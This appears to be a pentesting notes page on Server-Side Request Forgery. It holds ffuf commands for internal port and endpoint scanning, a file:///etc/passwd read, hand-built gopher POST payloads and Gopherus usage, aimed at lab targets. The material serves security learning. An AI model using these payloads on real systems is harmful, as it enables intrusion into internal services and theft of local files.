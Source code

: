 ```yaml
---
layout: default
title: SSRF
permalink: /Web/ssrf/
---
```


# Server-Side Request Forgery (SSRF)
This type of vulnerability occurs when an attacker can manipulate a web application into sending unauthorized requests from the server, because the web application fetches additional resources from a remote location based on user-supplied data, such as a URL.<br>
The following URL schemes are commonly used in the exploitation of SSRF vulnerabilities:
- http:// and https://: These URL schemes fetch content via HTTP/S requests. An attacker might use this in the exploitation of SSRF vulnerabilities to bypass WAFs, access restricted endpoints, or access endpoints in the internal network.
- file://: This URL scheme reads a file from the local file system. An attacker might use this in the exploitation of SSRF vulnerabilities to read local files on the web server (LFI).
- gopher://: This protocol can send arbitrary bytes to the specified address. An attacker might use this in the exploitation of SSRF vulnerabilities to send HTTP POST requests with arbitrary payloads or communicate with other services such as SMTP servers or databases.

## Confirming SSRF
- Supply a URL pointing to our system to the web aaplication, while we are listening with e.g. netcat.
- To determine, whether the HTTP response reflects the response, we can point the web application to itself, e.g. `http://127.0.0.1/index.php`.
If we see the HTML code in the response, the SSFR is not blind.

## Enumerating the System
We can do this using a fuzzer like ffuf.
```
seq 1 10000 > ports.txt
```
```
ffuf -w ./ports.txt -u http://$ip/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ/&date=2024-01-01" -fr "<response_identifier_for_closed_port>"
```
*Note: First check the error message in case of a closed port to apply the `-fr` regex filter correctly.*

## Accessing Restricted Endpoints
First determine the web server's response when we access a non-existing page. We should also find the correct extension of the files as we can see in the `$extension` variable.
```
ffuf -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -u http://$ip/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://dateserver.htb/FUZZ.$extension&date=2024-01-01" -fr "<response_identifier_for_non_existing_page>"
```
## Local File Inclusion (LFI)
We can attempt to read local files from the file system using the `file://` URL scheme. E.g. by supplying the URL `file:///etc/passwd`

## The gopher Protocol
We can use SSRF to access restricted internal endpoints, but we are restricted to GET requests as there is no way to send a POST request with the http:// URL scheme. <br>
Instead, we can use the gopher URL scheme to send arbitrary bytes to a TCP socket. This protocol enables us to create a POST request by building the HTTP request ourselves by URL encoding the request, e.g.
```
POST /login.php HTTP/1.1
Host: <url>
Content-Length: 13
Content-Type: application/x-www-form-urlencoded

password=admin
```
Afterward, we need to prefix the data with the gopher URL scheme, the target host and port, and an underscore, resulting in the following gopher URL:
```
gopher://<url>:80/_POST%20/...[SNIP]
```
Our specified bytes are sent to the target when the web application processes this URL. Since we carefully chose the bytes to represent a valid POST request, the internal web server accepts our POST request and responds accordingly. However, since we are sending our URL within the HTTP POST parameter dateserver, which itself is URL-encoded, we need to URL-encode the entire URL again to ensure the correct format of the URL after the web server accepts it. Otherwise, we will get a Malformed URL error. After URL encoding the entire gopher URL one more time, we can finally send the following request:
```
POST /index.php HTTP/1.1
Host: <ip>
Content-Length: 265
Content-Type: application/x-www-form-urlencoded

dateserver=gopher%3a//<url>%3a80/_POST%2520/...[SNIP]
```
*Note: We can use the gopher protocol to interact with many internal services, not just HTTP servers.*

### Gopherus
We can utilize the tool [Gopherus](https://github.com/tarunkant/Gopherus) to generate gopher URLs for us. To run the tool, we need a valid Python2 installation. 
```
python2.7 gopherus.py
```
Example:
```
python2.7 gopherus.py --exploit smtp
```

## Blind SSRF
In many SSRF vulnerabilities, the response is not directly displayed to us.

### Detection
We can identify blind SSRF with the same method as mentioned earlier (supplying a URL to a system under our control and setting up a netcat listener).

### Enumeration
We might be able to conduct a (restricted) local port scan of the system, provided the response differs for open and closed ports or sometimes the web application responds with a distinguishable text for closed ports. <br>
If the error message is different for existing and non-existing files, we can use the same technique to identify existing files on the filesystem.



